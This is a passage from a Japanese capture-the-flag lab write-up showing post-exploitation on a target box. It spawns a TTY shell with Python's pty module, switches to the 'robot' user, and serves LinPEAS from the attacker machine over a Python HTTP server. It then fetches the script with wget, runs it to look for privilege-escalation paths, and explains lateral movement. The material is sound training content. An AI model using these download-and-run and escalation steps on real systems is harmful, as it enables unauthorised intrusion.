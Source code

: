 そこで、ログインできるよう新たにシェルを立ちあげます。Python コマンドが実行できそうなので、以下のようにシェルを立ち上げるコマンドを実行します。その後またログインしてみると、 robot ユーザでログインに成功しました！
これで `key-2-of-3.txt` もゲットできます。

```sh
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su - robot
su - robot
Password:  

$ whoami
whoami
robot
```

robot ユーザでのログインに成功したので、次は権限昇格を狙います。

::: note info
このように、取得したログイン情報を足掛かりにして別のアカウントへ侵入することを横展開やラテラルムーブメントなどと呼びます。上位の権限を取得できる場合は権限昇格と呼びます。
:::

robot では sudo でのコマンド実行はできないようです。

```sh
$ sudo -l
sudo -l
[sudo] password for robot:

Sorry, user robot may not run sudo on linux.
```

そこで、 `LinPEAS` というツールを使って、特権昇格に使えそうな設定不備がないかを調べてみます。

::: note info
[LinPEAS](https://github.com/peass-ng/PEASS-ng) は侵入後に特権昇格を狙うための設定不備がないかを表示してくれる強力なツールです。シェルを取得できている場合、スクリプトを持ってくるだけで実行でき、様々な情報を見やすい形で表示してくれます。マスコットがかわいいのに、強力で恐ろしい。
:::

ローカルマシンで別タブを開き、 `cp /usr/share/peass/linpeas/linpeas.sh .` でスクリプトをコピーしてきます。ターゲットマシンで取得したいので `python3 -m http.server 12346` でサーバを起動します。

ターゲットマシンからローカルマシンのIPとポートを指定して `wget` でアクセスし、スクリプトを取得します（なお、`/home/robot` 配下では書き込み権限がなくエラーになったので、 `/tmp` に移動しています）

`linpeas.sh` に実行権限を付与したら、これを実行して脆弱性を探してみます。

```sh
$ wget 10.4.108.90:12346/linpeas.sh
wget 10.4.108.90:12346/linpeas.sh
--2024-10-27 14:43:42--  http://10.4.108.90:12346/linpeas.sh
Connecting to 10.4.108.90:12346... connected.
HTTP request sent, awaiting response... 200 OK
Length: 827739 (808K) [text/x-sh]
Saving to: ‘linpeas.sh’

100%[======================================>] 827,739      354KB/s   in 2.3s   

2024-10-27 14:43:45 (354 KB/s) - ‘linpeas.sh’ saved [827739/827739]

$ chmod +x linpeas.sh

$ ./linpeas.sh | tee linpeas_output.txt

```
